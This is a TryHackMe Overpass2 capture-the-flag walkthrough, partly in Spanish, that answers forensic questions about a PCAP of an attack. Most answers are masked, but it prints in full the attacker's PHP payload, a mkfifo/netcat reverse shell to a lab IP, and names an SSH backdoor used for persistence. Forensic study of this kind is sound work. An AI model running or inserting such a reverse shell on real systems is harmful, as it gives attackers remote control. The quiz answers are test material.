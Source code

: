 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```
